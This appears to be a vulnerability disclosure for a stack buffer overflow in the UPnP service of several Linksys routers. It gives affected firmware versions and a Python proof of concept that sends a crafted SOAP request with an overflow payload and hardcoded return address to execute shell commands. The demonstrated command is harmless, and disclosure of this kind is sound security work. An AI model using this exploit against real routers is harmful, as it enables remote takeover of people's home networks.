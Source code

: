 # Linksys Vulnerability

Vendor:Linksys

Product:WRT1900ACS,EA7200,EA7450 ,EA7500

https://support.linksys.com/kb/article/4985-cn/


Version:

WRT1900ACS(Ver. 2.0.3.201002)

EA7200(Ver. 1.0.3.20817933.9)

EA7450(Ver. 1.0.4.208179)

EA7500(Ver. 3.0.1.207964)



Type:

Stack-based Buffer Overflow



## Vulnerability description

I found a stack overflow vulnerability in Linksys routers. This vulnerability can be used with the popen function to execute arbitrary commands.

In `IGD` binary:

In `SetDefaultConnectionService` function, `NewDefaultConnectionService` is directly passed by the attacker,When using this parameter, strncpy is used directly for copying, causing a stack overflow.



![image](https://github.com/feiwuxingxie/cve/blob/main/linksys/vul01/1.2.png)


![](https://github.com/feiwuxingxie/cve/blob/main/linksys/vul01/1.1.png)

Function sub_189BC return with `POP {R4-R8,LR}`.And this binary file contains the popen function, and the parameters are controllable,  we can  execute any command.

![](https://github.com/feiwuxingxie/cve/blob/main/linksys/vul01/1.3.png)



## Poc

```python
import socket

ip="192.168.17.132"
port="49152"

payload='touch /tmp/flag;touch /tmp/flag;sleep 50#'
payload=payload.rjust(0x12c,' ')+'\xd0\x29\x90\xb1'*5+'\x78\x70'

junk='b'*0x1000

file_content='''
<s:Envelope s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:s="http://schemas.xmlsoap.org/soap/envelope/"> <s:Body> <u:SetDefaultConnectionService xmlns:u="urn:schemas-upnp-org:service:Layer3Forwarding:1#SetDefaultConnectionService"><NewDefaultConnectionService>{}</NewDefaultConnectionService><NewConnectionService>{}</NewConnectionService></u:SetDefaultConnectionService></s:Body></s:Envelope>
'''.format(payload,junk)

content_len=len(file_content)


template = f'''POST /upnp/control/Layer3Forwarding HTTP/1.1
Host: {ip}:{port}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _ga=GA1.4.1688139926.1746780008; _ga_BDYNZJT6JR=GS2.4.s1748393176$o15$g0$t1748393176$j60$l0$h0
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: text/xml;
SOAPACTION: "urn:schemas-upnp-org:service:Layer3Forwarding:1#SetDefaultConnectionService"
Content-Length: {content_len}

{file_content}
'''.replace('\n', '\r\n')
#print(template)

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((ip, int(port)))
sock.sendall(template.encode('latin-1'))

data=sock.recv(4096)
print(data)

```

